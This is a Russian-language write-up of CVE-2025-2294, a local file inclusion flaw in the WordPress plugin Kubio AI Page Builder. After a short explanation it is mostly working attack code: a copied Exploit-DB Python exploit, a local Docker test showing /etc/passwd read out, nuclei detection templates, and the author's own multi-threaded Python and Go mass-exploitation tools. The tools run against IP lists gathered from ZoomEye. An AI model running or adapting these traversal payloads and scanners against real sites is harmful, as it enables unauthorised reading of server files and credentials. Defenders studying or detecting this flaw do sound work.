



# CVE-2025-2294 – Local File Inclusion (LFI) в WordPress-плагине Kubio AI Page Builder

## Теоретический материал про CVE-2025-2294

### Вектор уязвимости:
- #### Базовый вектор уязвимости (CVSSv3.1): CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
- #### Уровень опасности уязвимости (CVSSv3.1): 9.8 (Critical)

### Описание уязвимости
12 марта 2025 года исследователи безопасности сообщили о критической уязвимости в популярном плагине `Kubio AI Page Builder` для `WordPress` (более 90 000 активных установок). Уязвимость `CVE-2025-2294` позволяет **неаутентифицированному удалённому злоумышленнику эксплуатировать Local File Inclusion (LFI)** в функции `thekubio_hybrid_theme_load_template`.

Основная причина уязвимости кроется в **некорректной проверке пользовательских данных**, передаваемых в параметр шаблона, используемый при загрузке файлов. Плагин не ограничивает путь к файлу строго допустимыми значениями, что позволяет злоумышленнику включить локальные файлы на сервере WordPress-сайта.

Используя эту уязвимость, атакующий может:
- читать конфиденциальные файлы (например `wp-config.php`, `/etc/passwd`),
- при определённых условиях добиться **удалённого исполнения кода**, если ему удастся загрузить и включить произвольный PHP-код.

Уязвимость получила оценку **CVSS 9.8 (критическая)**, так как эксплуатируется удалённо, без аутентификации и может привести к компрометации всей системы.


### Затронутые версии
<table border="1" cellspacing="0" cellpadding="5" style="border-collapse: collapse; width: 100%;"> 
    <thead> 
        <tr> 
            <th>Название продукта</th> 
            <th>Затронутые версии</th> 
            <th>Исправленные версии</th> 
        </tr> 
    </thead> 
    <tbody> 
        <tr> 
            <td>Kubio AI Page Builder (WordPress Plugin)</td> 
            <td>Версия 2.5.1 и все более ранние</td> 
            <td>Исправлено в версии 2.5.2</td> 
        </tr> 
    </tbody> 
</table>


### Объяснение CVE-2025-2294

**CVE-2025-2294** — это уязвимость типа **Local File Inclusion (LFI)** в плагине `Kubio AI Page Builder` для `WordPress`. Она присутствует во всех версиях плагина до и включая `2.5.1` и была выявлена в функции `thekubio_hybrid_theme_load_template`.

### По факту:
Плагин не ограничивает путь к файлу, передаваемый через параметр `template` в запросах, что позволяет злоумышленнику манипулировать этим параметром и включать произвольные файлы с сервера. Это возможно благодаря недостаточной валидации входных данных, что приводит к уязвимости типа LFI.

Изменения между версией `2.5.1` и `2.5.2` можно увидеть [здесь](https://plugins.trac.wordpress.org/changeset?old_path=%2Fkubio%2Ftags%2F2.5.1%2Flib%2Fintegrations%2Fthird-party-themes%2Feditor-hooks.php&old=3367145&new_path=%2Fkubio%2Ftags%2F2.5.2%2Flib%2Fintegrations%2Fthird-party-themes%2Feditor-hooks.php&new=3367145&sfp_email=&sfph_mail=)

### Если по шагам:

#### 1. Отправка HTTP-запроса с параметром шаблона
Формируется http-запрос к уязвимой странице плагина Kubio, обычно к файлу типа:
```md
http://example.com/wp-content/plugins/kubio/includes/template.php?template=<PAYLOAD>
```

В параметре `template` можно указать путь к файлу, который злоумышленник хочет включить. На этом этапе сервер просто принимает этот параметр, **не проверяя, допустим ли путь и разрешён ли файл для включения**. 

#### 2. Манипуляция параметром пути
Подставляются относительные пути(`../../../../`) для выхода за пределы директории плагина и указания системных файлов. Пример:

```arduino
?template=../../../../../../../etc/passwd
```

Сервер интерпретирует путь как допустимый и пытается включить файл.

#### 3. Чтение или включение файла
В результате сервер выполняет функицию `include` или `require` на переданный файл. Это позволяет:
- **Чтение конфиденциальных файлов**: содержимое файлов возвращается в HTTP-ответе (`/etc/passwd`, `wp-config.php` и др.) 
- **Выполнение производного PHP-кода**: если злоумышленник заранее загрузил PHP-файл (через форму загрузки файлов или другой метод), он может его включить и выполнить на сервере

#### 4. Получение доступа к информации или RCE
В зависимости от файла, включенного через `LFI`, атакующий может:
- Считать конфиденциальные данные и пароли
- Выполнить произвольные команды через загруженный PHP-код
- Обойти аутентификацию и получить административный доступ к WordPress


### Импакт:
- **Remote LFI / Potential RCE** – уязвимость позволяет читать локальные файлы, а при определённой конфигурации — выполнять произвольный код
- **Обход аутентификации**: возможность включения произвольных файлов может быть использована для обхода механизмов аутентификации или получения доступа к административным панелям
- **Три кита ИБ**: конфиденциальность/доступность/целостность – LFI может раскрыть чувствительные данные, нарушить работу сайта и дать полный контроль злоумышленнику при наличии RCE.


## Разработка сплойта:

Очень хороший [сплойт](https://www.exploit-db.com/exploits/52125) уже написан :):((

Поэтому возьму сразу его:

```python
import argparse
import re
import requests
from urllib.parse import urljoin
from concurrent.futures import ThreadPoolExecutor

class Colors:
    HEADER = '\033[95m'
    OKBLUE = '\033[94m'
    OKGREEN = '\033[92m'
    WARNING = '\033[93m'
    FAIL = '\033[91m'
    ENDC = '\033[0m'
    BOLD = '\033[1m'
    UNDERLINE = '\033[4m'

def parse_version(version_str):
    parts = list(map(int, version_str.split('.')))
    while len(parts) < 3:
        parts.append(0)
    return tuple(parts[:3])

def check_plugin_version(target_url):
    readme_url = urljoin(target_url, 'wp-content/plugins/kubio/readme.txt')
    try:
        response = requests.get(readme_url, timeout=10)
        if response.status_code == 200:
            version_match = re.search(r'Stable tag:\s*([\d.]+)', response.text, re.I)
            if not version_match:
                return False, "Version not found"
            version_str = version_match.group(1).strip()
            try:
                parsed_version = parse_version(version_str)
            except ValueError:
                return False, f"Invalid version format: {version_str}"
            return parsed_version <= (2, 5, 1), version_str
        return False, f"HTTP Error {response.status_code}"
    except Exception as e:
        return False, f"Connection error: {str(e)}"

def exploit_vulnerability(target_url, file_path, show_content=False):
    exploit_url = f"{target_url}/?__kubio-site-edit-iframe-preview=1&__kubio-site-edit-iframe-classic-template={file_path}"
    try:
        response = requests.get(exploit_url, timeout=10)
        if response.status_code == 200:
            if show_content:
                print(f"\n{Colors.OKGREEN}[+] File content from {target_url}:{Colors.ENDC}")
                print(Colors.OKBLUE + response.text + Colors.ENDC)
            return True
        return False
    except Exception as e:
        return False

def process_url(url, file_path, show_content, output_file):
    print(f"{Colors.HEADER}[*] Checking: {url}{Colors.ENDC}")
    is_vuln, version_info = check_plugin_version(url)
    
    if is_vuln:
        print(f"{Colors.OKGREEN}[+] Vulnerable: {url} (Version: {version_info}){Colors.ENDC}")
        exploit_success = exploit_vulnerability(url, file_path, show_content)
        if output_file and exploit_success:
            with open(output_file, 'a') as f:
                f.write(f"{url}\n")
        return url if exploit_success else None
    else:
        print(f"{Colors.FAIL}[-] Not vulnerable: {url} ({version_info}){Colors.ENDC}")
        return None

def main():
    parser = argparse.ArgumentParser(description="Kubio Plugin Vulnerability Scanner")
    group = parser.add_mutually_exclusive_group(required=True)
    group.add_argument("-u", "--url", help="Single target URL (always shows file content)")
    group.add_argument("-l", "--list", help="File containing list of URLs")
    parser.add_argument("-f", "--file", default="../../../../../../../../etc/passwd",
                      help="File path to exploit (default: ../../../../../../../../etc/passwd)")
    parser.add_argument("-o", "--output", help="Output file to save vulnerable URLs")
    parser.add_argument("-v", "--verbose", action="store_true", 
                      help="Show file contents when using -l/--list mode")
    parser.add_argument("-t", "--threads", type=int, default=5, 
                      help="Number of concurrent threads for list mode")
    
    args = parser.parse_args()

    # Determine operation mode
    if args.url:
        # Single URL mode - always show content
        process_url(args.url, args.file, show_content=True, output_file=args.output)
    elif args.list:
        # List mode - handle multiple URLs
        with open(args.list, 'r') as f:
            urls = [line.strip() for line in f.readlines() if line.strip()]

        print(f"{Colors.BOLD}[*] Starting scan with {len(urls)} targets...{Colors.ENDC}")

        with ThreadPoolExecutor(max_workers=args.threads) as executor:
            futures = []
            for url in urls:
                futures.append(
                    executor.submit(
                        process_url,
                        url,
                        args.file,
                        args.verbose,
                        args.output
                    )
                )

            vulnerable_urls = [future.result() for future in futures if future.result()]

        print(f"\n{Colors.BOLD}[*] Scan complete!{Colors.ENDC}")
        print(f"{Colors.OKGREEN}[+] Total vulnerable URLs found: {len(vulnerable_urls)}{Colors.ENDC}")
        if args.output:
            print(f"{Colors.OKBLUE}[+] Vulnerable URLs saved to: {args.output}{Colors.ENDC}")

if __name__ == "__main__":
    main()%                         
```

### Подробное объяснение сплойта:

#### Функция `check_plugin_version(target_url)`
Она получает `readme.txt` плагина на сайте:
```arduino
wp-content/plugins/kubio/readme.txt
```

Далее ищет версию плагина через регулярку(выражение `Stable tag: X.X.X`).
В конце определяет, является ли версия уязвимой(`<= 2.5.1`)

В результате сайт отмечает, уязвим он или нет.

#### Функция `exploit_vulnerability(target_url, file_path, show_content=False)`
- Отправляет GET-запрос на:
    ```cpp
    ?__kubio-site-edit-iframe-preview=1&__kubio-site-edit-iframe-classic-template={file_path}
    ```
- `file_path` по умолчанию установлен на:
    ```bash
    ../../../../../../../../etc/passwd
    ```

#### Функция `process_url()`
- Проверяет сайт на уязвимость.
- Если сайт уязвим, вызывает `exploit_vulnerability`.
- При успешной эксплуатации может сохранять URL в файл


#### Программа парсит следующие аргументы:
- `-u / --url` — проверка одного сайта.
- `-l / --list` — проверка списка сайтов.
- `-f / --file` — путь к файлу для LFI (по умолчанию /etc/passwd).
- `-o / --output` — файл для записи уязвимых сайтов.
- `-v / --verbose` — вывод содержимого файла при массовой проверке.
- `-t / --threads` — число потоков при массовой проверке (по умолчанию 5)


## Активное исследование

Чтобы проверить сплойт и его работоспособность пришлось развернуть wordpress у себя. Для этого я написал `docker-compose.yml`:

```yaml
version: '3.8'

services:
  db:
    image: mysql:5.7
    container_name: wp-db
    restart: always
    environment:
      MYSQL_ROOT_PASSWORD: root
      MYSQL_DATABASE: wordpress
      MYSQL_USER: wp
      MYSQL_PASSWORD: wp
    volumes:
      - db_data:/var/lib/mysql

  wordpress:
    image: wordpress:6.8.2-php8.1-apache
    container_name: wp-test
    restart: always
    ports:
      - "8081:80"
    environment:
      WORDPRESS_DB_HOST: db:3306
      WORDPRESS_DB_USER: wp
      WORDPRESS_DB_PASSWORD: wp
      WORDPRESS_DB_NAME: wordpress
    volumes:
      - wordpress_data:/var/www/html
      - ./kubio:/var/www/html/wp-content/plugins/kubio
    depends_on:
      - db

volumes:
  wordpress_data:
  db_data:
```

Так же, стоит заметить, что я скачал уязвимую версию `kubio2.5.1`, распаковал и сразу добавил его в плагины WP. Далее открыв сайт, установил, зарегался и активировал плагин. Все, теперь можно пробовать))


### Проверка сплойта:


#### Если не отображается:

```bash
> python 52125.py -f '../../../../../etc/passwd' -u 'http://127.0.0.1:8081'
[*] Checking: http://127.0.0.1:8081
[+] Vulnerable: http://127.0.0.1:8081 (Version: 2.5.1)

[+] File content from http://127.0.0.1:8081:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```

Сплойт работает, ура!


## Формировка списка уязвимых хостов и IP-адресов

Для формировки обычного списка ip адресов используемых для проверки воспользуемся опять `zoomeye` и таким запросом в поиск:
`header:"X-Pingback: /xmlrpc.php"`.

Чтобы спарсить ip адреса можно воспользоваться таким [скриптом](https://github.com/mirmeweu/zoomeye-crawler)

Итоговый [файл](alive.txt) с ip адресами чтобы их проверить

К сожалению уязвимых хостов не нашлось:(((

## Массовая проверка 

### Написание правила активной проверки на nuclei

Написание шаблона было простой задачей, просто проверяется версия `kubio`, потом отправляется get запрос на уязвимый `endpoint` с `payload'ом`. Вывод проверяется по первым символам: `root:x:`

```yaml
id: kubio-lfi
info:
  name: Kubio AI Page Builder LFI (CVE-2025-2294)
  author: Mirkasimov Ilnaz
  severity: critical
  description: Checks for Kubio <=2.5.1 LFI vulnerability
  reference:
    - https://www.cve.org/CVERecord?id=CVE-2025-2294
  tags: wordpress,lfi,kubio

requests:
  - method: GET
    path:
      - "{{BaseURL}}/wp-content/plugins/kubio/readme.txt"
    matchers:
      - type: regex
        regex:
          - "Stable tag:\\s*([0-9\\.]+)"
        name: kubio_version
    extractors:
      - type: regex
        name: version
        regex:
          - "Stable tag:\\s*([0-9\\.]+)"

  - method: GET
    path:
      - "{{BaseURL}}/?__kubio-site-edit-iframe-preview=1&__kubio-site-edit-iframe-classic-template=../../../../../../../../etc/passwd"
    matchers:
      - type: word
        part: body
        words:
          - "root:x:"
        name: kubio_lfi
```





### Написание правила пассивной проверки на nuclei

Написание данного шаблона была тоже довольно простой. Просто отправляешь запрос на `/wp-content/plugins/kubio/readme.txt`, парсишь `Stable tag` если версия `<= 2.5.1`. Ну в целом и все)


```yaml
id: kubio-passive-vulnerable
info:
  name: Kubio AI Page Builder <=2.5.1 Vulnerability Check (Passive)
  author: Mirkasimov Ilnaz
  severity: info
  description: |
    Checks Kubio plugin version via readme.txt and reports hosts with version <= 2.5.1 (CVE-2025-2294)
  reference:
    - https://www.cve.org/CVERecord?id=CVE-2025-2294
  tags: wordpress,kubio,passive

requests:
  - method: GET
    path:
      - "{{BaseURL}}/wp-content/plugins/kubio/readme.txt"
    matchers:
      - type: regex
        regex:
          - "Stable tag:\\s*(0\\.[0-9]+\\.[0-9]+|1\\.[0-9]+\\.[0-9]+|2\\.[0-4]+\\.[0-9]+|2\\.5\\.[0-1])"
        part: body
```



### Написание сплойта на Python/Go

#### Написание сплойта на питоне
Для написание сплойта на питоне, попытаемся получить уязвимую версию и сравнить ее с `2.5.1`. В целом все, вот сплойт:

```python
import argparse
import re
import requests
from urllib.parse import urljoin
from concurrent.futures import ThreadPoolExecutor

class Colors:
    HEADER = '\033[95m'
    OKBLUE = '\033[94m'
    OKGREEN = '\033[92m'
    WARNING = '\033[93m'
    FAIL = '\033[91m'
    ENDC = '\033[0m'
    BOLD = '\033[1m'
    UNDERLINE = '\033[4m'

def parse_version(version_str):
    parts = list(map(int, version_str.split('.')))
    while len(parts) < 3:
        parts.append(0)
    return tuple(parts[:3])

def check_plugin_version(target_url, timeout, debug=False):
    readme_url = urljoin(target_url, 'wp-content/plugins/kubio/readme.txt')
    try:
        response = requests.get(readme_url, timeout=timeout, verify=False)
        if response.status_code == 200:
            version_match = re.search(r'Stable tag:\s*([\d.]+)', response.text, re.I)
            if not version_match:
                return False, "Version not found"
            version_str = version_match.group(1).strip()
            try:
                parsed_version = parse_version(version_str)
            except ValueError:
                return False, f"Invalid version format: {version_str}"
            is_vuln = parsed_version <= (2, 5, 1)
            if debug:
                status = "VULNERABLE" if is_vuln else "NOT vulnerable"
                print(f"{Colors.HEADER}[DEBUG]{Colors.ENDC} {target_url} - Version {version_str} -> {status}")
            return is_vuln, version_str
        else:
            if debug:
                print(f"{Colors.WARNING}[DEBUG] {target_url} - HTTP Error {response.status_code}{Colors.ENDC}")
            return False, f"HTTP Error {response.status_code}"
    except Exception as e:
        if debug:
            print(f"{Colors.FAIL}[DEBUG] {target_url} - Connection error: {str(e)}{Colors.ENDC}")
        return False, f"Connection error: {str(e)}"

def exploit_vulnerability(target_url, file_path, timeout, show_content=False):
    exploit_url = f"{target_url}/?__kubio-site-edit-iframe-preview=1&__kubio-site-edit-iframe-classic-template={file_path}"
    try:
        response = requests.get(exploit_url, timeout=timeout, verify=False)
        if response.status_code == 200:
            if show_content:
                print(f"\n{Colors.OKGREEN}[+] File content from {target_url}:{Colors.ENDC}")
                print(Colors.OKBLUE + response.text + Colors.ENDC)
            return True
        return False
    except Exception:
        return False

def process_url(url, file_path, timeout, verbose, output_file, debug, check_only=False):
    is_vuln, version_info = check_plugin_version(url, timeout, debug)
    
    if check_only:
        if is_vuln:
            print(f"{Colors.OKGREEN}[VULNERABLE]{Colors.ENDC} {url} - Version {version_info}")
            return url
        return None

    if is_vuln:
        exploit_success = exploit_vulnerability(url, file_path, timeout, verbose)
        if output_file and exploit_success:
            with open(output_file, 'a') as f:
                f.write(f"{url}\n")
        return url if exploit_success else None
    return None

def parse_results_file(file_path):
    urls = []
    with open(file_path, 'r') as f:
        for line in f:
            line = line.strip()
            if not line:
                continue
            port_match = re.search(r':(\d+)$', line)
            port = int(port_match.group(1)) if port_match else 80
            ip_matches = re.findall(r'\d+\.\d+\.\d+\.\d+', line)
            for ip in ip_matches:
                schema = "https" if port == 443 else "http"
                urls.append(f"{schema}://{ip}:{port}")
    return urls

def main():
    parser = argparse.ArgumentParser(description="Kubio Plugin Vulnerability Scanner")
    parser.add_argument("-l", "--list", required=True, help="File containing results.txt with IPs")
    parser.add_argument("-f", "--file", default="../../../../../../../../etc/passwd",
                      help="File path to exploit (default: ../../../../../../../../etc/passwd)")
    parser.add_argument("-o", "--output", help="Output file to save vulnerable URLs")
    parser.add_argument("-v", "--verbose", action="store_true", help="Show file contents when scanning")
    parser.add_argument("-t", "--threads", type=int, default=5, help="Number of concurrent threads")
    parser.add_argument("-to", "--timeout", type=int, default=10, help="Timeout for HTTP requests")
    parser.add_argument("-d", "--debug", action="store_true", help="Enable debug output")
    parser.add_argument("-check", action="store_true", help="Check version only and print vulnerable hosts")

    args = parser.parse_args()

    urls = parse_results_file(args.list)
    if args.debug:
        print(f"{Colors.BOLD}[*] Parsed {len(urls)} target URLs from file.{Colors.ENDC}")

    with ThreadPoolExecutor(max_workers=args.threads) as executor:
        futures = []
        for url in urls:
            futures.append(
                executor.submit(
                    process_url,
                    url,
                    args.file,
                    args.timeout,
                    args.verbose,
                    args.output,
                    args.debug,
                    args.check
                )
            )
        vulnerable_urls = [f.result() for f in futures if f.result()]

    if not args.check:
        print(f"\n{Colors.BOLD}[*] Scan complete!{Colors.ENDC}")
        print(f"{Colors.OKGREEN}[+] Total vulnerable URLs found: {len(vulnerable_urls)}{Colors.ENDC}")
        if args.output:
            print(f"{Colors.OKBLUE}[+] Vulnerable URLs saved to: {args.output}{Colors.ENDC}")

if __name__ == "__main__":
    requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)
    main()
```

#### Написание сплойта на Golang

Опять немного промтов в гпт... Вот сплойт:

```golang
package main

import (
	"bufio"
	"flag"
	"fmt"
	"io"
	"net/http"
	"os"
	"regexp"
	"strconv"
	"strings"
	"sync"
	"time"
)

type Colors struct{}

var color = Colors{}

func (c Colors) HEADER(s string) string  { return "\033[95m" + s + "\033[0m" }
func (c Colors) OKGREEN(s string) string { return "\033[92m" + s + "\033[0m" }
func (c Colors) OKBLUE(s string) string  { return "\033[94m" + s + "\033[0m" }
func (c Colors) FAIL(s string) string    { return "\033[91m" + s + "\033[0m" }
func (c Colors) BOLD(s string) string    { return "\033[1m" + s + "\033[0m" }

func parseVersion(versionStr string) ([3]int, error) {
	var ver [3]int
	parts := strings.Split(versionStr, ".")
	for i := 0; i < 3; i++ {
		if i < len(parts) {
			p, err := strconv.Atoi(parts[i])
			if err != nil {
				return ver, err
			}
			ver[i] = p
		} else {
			ver[i] = 0
		}
	}
	return ver, nil
}

func isVulnerableVersion(versionStr string) bool {
	v, err := parseVersion(versionStr)
	if err != nil {
		return false
	}
	return v[0] < 2 || (v[0] == 2 && v[1] < 5) || (v[0] == 2 && v[1] == 5 && v[2] <= 1)
}

func checkPluginVersion(url string, timeout int, debug bool) (bool, string) {
	readmeURL := strings.TrimRight(url, "/") + "/wp-content/plugins/kubio/readme.txt"

	client := &http.Client{
		Timeout: time.Duration(timeout) * time.Second,
	}
	req, _ := http.NewRequest("GET", readmeURL, nil)
	req.Header.Set("User-Agent", "Mozilla/5.0")

	resp, err := client.Do(req)
	if err != nil {
		if debug {
			fmt.Printf("%s[DEBUG]%s %s - Connection error: %v\n", color.HEADER(""), color.OKBLUE(""), url, err)
		}
		return false, "Connection error"
	}
	defer resp.Body.Close()

	if resp.StatusCode != 200 {
		if debug {
			fmt.Printf("%s[DEBUG]%s %s - HTTP error %d\n", color.HEADER(""), color.OKBLUE(""), url, resp.StatusCode)
		}
		return false, fmt.Sprintf("HTTP Error %d", resp.StatusCode)
	}

	bodyBytes, _ := io.ReadAll(resp.Body)
	re := regexp.MustCompile(`Stable tag:\s*([\d.]+)`)
	matches := re.FindStringSubmatch(string(bodyBytes))
	if len(matches) < 2 {
		return false, "Version not found"
	}

	version := matches[1]
	if debug {
		status := "NOT vulnerable"
		if isVulnerableVersion(version) {
			status = "VULNERABLE"
		}
		fmt.Printf("%s[DEBUG]%s %s - Version %s -> %s\n", color.HEADER(""), color.OKBLUE(""), url, version, status)
	}
	return isVulnerableVersion(version), version
}

func exploitVulnerability(url, filePath string, timeout int, showContent bool) bool {
	exploitURL := fmt.Sprintf("%s/?__kubio-site-edit-iframe-preview=1&__kubio-site-edit-iframe-classic-template=%s", url, filePath)

	client := &http.Client{
		Timeout: time.Duration(timeout) * time.Second,
	}
	resp, err := client.Get(exploitURL)
	if err != nil {
		return false
	}
	defer resp.Body.Close()

	if resp.StatusCode == 200 && showContent {
		body, _ := io.ReadAll(resp.Body)
		fmt.Printf("\n%s[+] File content from %s:%s\n", color.OKGREEN(""), url, color.OKBLUE(""))
		fmt.Println(string(body))
		return true
	}
	return resp.StatusCode == 200
}

func parseResultsFile(filePath string) ([]string, error) {
	file, err := os.Open(filePath)
	if err != nil {
		return nil, err
	}
	defer file.Close()

	var urls []string
	scanner := bufio.NewScanner(file)
	ipRegex := regexp.MustCompile(`\d+\.\d+\.\d+\.\d+`)
	portRegex := regexp.MustCompile(`:(\d+)$`)

	for scanner.Scan() {
		line := strings.TrimSpace(scanner.Text())
		if line == "" {
			continue
		}

		port := 80
		if portMatch := portRegex.FindStringSubmatch(line); len(portMatch) == 2 {
			port, _ = strconv.Atoi(portMatch[1])
		}

		ips := ipRegex.FindAllString(line, -1)
		for _, ip := range ips {
			schema := "http"
			if port == 443 {
				schema = "https"
			}
			url := fmt.Sprintf("%s://%s:%d", schema, ip, port)
			urls = append(urls, url)
		}
	}
	return urls, scanner.Err()
}

func main() {
	listFile := flag.String("list", "", "File containing results.txt with IPs")
	filePath := flag.String("file", "../../../../../../../../etc/passwd", "File path to exploit")
	outputFile := flag.String("output", "", "Output file to save vulnerable URLs")
	verbose := flag.Bool("verbose", false, "Show file contents when scanning")
	threads := flag.Int("threads", 5, "Number of concurrent threads")
	timeout := flag.Int("timeout", 10, "Timeout for HTTP requests")
	debug := flag.Bool("debug", false, "Enable debug output")
	checkOnly := flag.Bool("check", false, "Check version only and print vulnerable hosts")

	flag.Parse()

	if *listFile == "" {
		fmt.Println("Please provide a list file with -list")
		os.Exit(1)
	}

	urls, err := parseResultsFile(*listFile)
	if err != nil {
		fmt.Println("Error reading file:", err)
		os.Exit(1)
	}
	fmt.Printf("%s[*]%s Parsed %d URLs\n", color.BOLD(""), "", len(urls))

	var wg sync.WaitGroup
	sem := make(chan struct{}, *threads)
	vulnChan := make(chan string, len(urls))

	for _, url := range urls {
		wg.Add(1)
		go func(u string) {
			defer wg.Done()
			sem <- struct{}{}
			defer func() { <-sem }()

			isVuln, version := checkPluginVersion(u, *timeout, *debug)
			if *checkOnly {
				if isVuln {
					fmt.Printf("%s[VULNERABLE]%s %s - Version %s\n", color.OKGREEN(""), "", u, version)
					vulnChan <- u
				}
				return
			}

			if isVuln {
				success := exploitVulnerability(u, *filePath, *timeout, *verbose)
				if success {
					vulnChan <- u
				}
			}
		}(url)
	}

	wg.Wait()
	close(vulnChan)

	if !*checkOnly {
		fmt.Printf("\n%s[*]%s Scan complete!\n", color.BOLD(""), "")
		count := 0
		for u := range vulnChan {
			fmt.Printf("%s[+]%s %s\n", color.OKGREEN(""), "", u)
			count++
		}
		fmt.Printf("%s[+] Total vulnerable URLs found: %d%s\n", color.OKGREEN(""), count, "")
		if *outputFile != "" {
			f, _ := os.Create(*outputFile)
			for u := range vulnChan {
				f.WriteString(u + "\n")
			}
			f.Close()
		}
	}
}
```

Проверил, все работает:

```bash
> ./active -list alive.txt -file '../../../../../../../../../../etc/passwd'
[*] Parsed 147 URLs

[*] Scan complete!
[+] http://127.0.0.1:8081
[+] Total vulnerable URLs found: 1
```


### Конец

#### Используемые ссылки:

- https://nvd.nist.gov/vuln/detail/CVE-2025-2294
- https://plugins.trac.wordpress.org/browser/kubio/tags/2.5.1/lib/integrations/third-party-themes/editor-hooks.php#L32
- https://plugins.trac.wordpress.org/changeset?old_path=%2Fkubio%2Ftags%2F2.5.1%2Flib%2Fintegrations%2Fthird-party-themes%2Feditor-hooks.php&old=3367145&new_path=%2Fkubio%2Ftags%2F2.5.2%2Flib%2Fintegrations%2Fthird-party-themes%2Feditor-hooks.php&new=3367145&sfp_email=&sfph_mail=
- https://www.wordfence.com/blog/2025/04/wordfence-intelligence-weekly-wordpress-vulnerability-report-march-24-2025-to-march-30-2025/
